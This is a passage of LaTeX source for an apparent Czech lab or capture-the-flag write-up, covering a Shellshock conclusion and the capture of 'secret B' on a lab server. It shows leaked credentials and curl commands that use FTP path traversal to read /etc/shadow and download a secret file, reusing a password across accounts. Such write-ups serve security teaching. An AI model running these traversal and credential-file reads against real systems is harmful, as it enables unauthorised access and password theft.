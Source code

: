 \documentclass{article}
\begin{document}
\paragraph{Závěr:}
Zranitelnost Shellshock byla klíčová pro získání tajemství A. Pro efektivní zabezpečení tohoto serveru je nutné provést aktualizaci a opravy týkající se této zranitelnosti, což by zabránilo spouštění škodlivých příkazů prostřednictvím HTTP hlaviček.

\section{Tajemství B}
Při hledání tajemství D jsem objevila přihlašovací \' udaje, které šly využít pro získání tohoto tajemství, tedy:
\begin{verbatim}
<html>
  <body>
    <h2>Woodelf Items</h2>
    <ul>
      <li>{"0":1,"id":1,"1":"admin","name":"admin","2":"iloveyou","category":"iloveyou"}</li>
    </ul>
  </body>
</html>
\end{verbatim}

\begin{itemize}
  \item \textbf{Zahájení testování FTP serveru:} 
  Nejprve jsem provedla FTP požadavek na server a pokusila se přistupovat do složky \texttt{/etc/shadow}. Pro tento účel jsem použila následující příkaz:
  \begin{lstlisting}[language=bash]
    curl ftp://10.89.1.158/%2e%2e/%2e%2e/etc/shadow --user admin:iloveyou
  \end{lstlisting}
  Tento příkaz se pokusil stáhnout obsah souboru \texttt{shadow} z FTP serveru, což je soubor obsahující uživatelské účty a šifrovaná hesla.

  \item \textbf{Další testování s jiným uživatelem:}
  Po ne tolik úspěšném získání přístupu s uživatelem \texttt{admin}, jsem si všimla stejného hashe u hesla pro uživatele \texttt{theoden}. Proto jsem se tedy zkusila k serveru připojit následovně:
  \begin{lstlisting}[language=bash]
    curl ftp://10.89.1.158/%2e%2e/%2e%2e/etc/shadow --user theoden:iloveyou
  \end{lstlisting}

  \item \textbf{Zjištění přístupu k souboru \texttt{secret.txt}:}
  Po ověření přístupu k souboru \texttt{/etc/shadow} jsem provedla další krok a zjistila, že na FTP serveru je soubor \texttt{secret.txt}. Tento soubor jsem stáhla pomocí příkazu:
  \begin{lstlisting}[language=bash]
    curl ftp://10.89.1.158/secret.txt --user theoden:iloveyou
  \end{lstlisting}
  Soubor \texttt{secret.txt} obsahoval tajemství B:
  \begin{center}
    \texttt{Tajemstvi\_B\_3e898b1cea2213494669cbfcbe0a1d880535e0da356324887b3f9ca7e32d88d6}
  \end{center}
\end{itemize}
\end{document}
